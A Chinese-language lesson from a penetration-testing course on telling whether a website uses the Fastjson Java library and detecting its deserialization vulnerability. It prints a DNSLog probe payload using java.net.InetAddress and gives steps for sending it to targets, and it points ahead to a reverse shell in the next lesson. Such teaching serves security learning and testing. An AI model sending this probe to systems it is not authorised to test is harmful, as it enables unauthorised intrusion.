



# Fastjson漏洞挖掘：P53：52.Fastjson的识别和漏洞发现 🎯

在本节课中，我们将要学习如何识别一个网站是否使用了Fastjson组件，并初步检测其是否存在相关漏洞。Fastjson是一个Java库，用于将Java对象转换为JSON格式，以及将JSON字符串转换回Java对象。识别出使用Fastjson的站点是进行漏洞利用的第一步。

## 识别Fastjson的使用

上一节我们介绍了Fastjson的基本作用，本节中我们来看看如何在实际的网站中发现它的踪迹。

由于Fastjson主要用于处理JSON数据，因此，在网站通信中，凡是出现JSON格式数据交互的地方，都有可能使用了Fastjson组件。





以下是识别Fastjson的关键特征：

1.  **Content-Type字段**：在HTTP请求头中，如果`Content-Type`字段的值为`application/json`，这表明请求体中的数据是JSON格式。
2.  **请求体格式**：POST请求的正文部分（Body）内容本身是标准的JSON格式。

当我们在抓包分析时，如果同时观察到以上两个特征，就可以初步推测该网站后端可能使用了Fastjson来处理JSON数据。这是进行后续漏洞检测的前提。

## 漏洞检测方法

识别出潜在目标后，下一步是尝试检测其是否存在Fastjson反序列化漏洞。一个常见且低风险的检测方法是利用DNSLog技术。

**核心原理**：构造一个特殊的JSON payload，如果目标存在Fastjson漏洞，它会尝试解析这个payload并对外发起一次DNS查询。我们通过监控DNSLog平台是否收到这次查询请求，来判断漏洞是否存在。

以下是利用DNSLog进行检测的基本步骤：

1.  **准备DNSLog地址**：首先需要一个DNSLog平台来接收查询记录。例如，可以使用公开的DNSLog服务（如`dnslog.cn`）或自己搭建。
2.  **构造检测Payload**：Payload中包含一个指向我们DNSLog子域名的`java.net.InetAddress`类 lookup 操作。例如：
    ```json
    {
      "@type": "java.net.InetAddress",
      "val": "你的子域名.dnslog.cn"
    }
    ```
3.  **发送Payload**：将构造好的Payload，以JSON格式替换原网站的正常请求数据包（Body），并确保请求头的`Content-Type`为`application/json`，然后发送给目标。
4.  **查看结果**：稍等片刻，刷新你的DNSLog平台。如果平台收到了来自目标服务器IP的对`你的子域名.dnslog.cn`的解析请求，则证明目标存在Fastjson反序列化漏洞。

**注意**：这种方法属于“盲打”，即不依赖目标的直接回显。即使目标没有将错误信息返回给用户，只要它执行了我们的payload并发起了DNS查询，我们就能感知到。

## 总结



本节课中我们一起学习了Fastjson漏洞挖掘的初始阶段。我们了解到，可以通过分析HTTP请求中的`Content-Type: application/json`和JSON格式的请求体来初步识别可能使用了Fastjson的网站。随后，我们介绍了一种安全、有效的漏洞检测方法——利用DNSLog平台进行“盲注”检测。通过发送特定的JSON payload并观察DNSLog平台是否收到解析请求，可以判断目标是否存在Fastjson反序列化漏洞。在确认漏洞存在后，就可以进一步研究如何利用该漏洞获取系统权限（例如反弹Shell），这将是下节课要讨论的内容。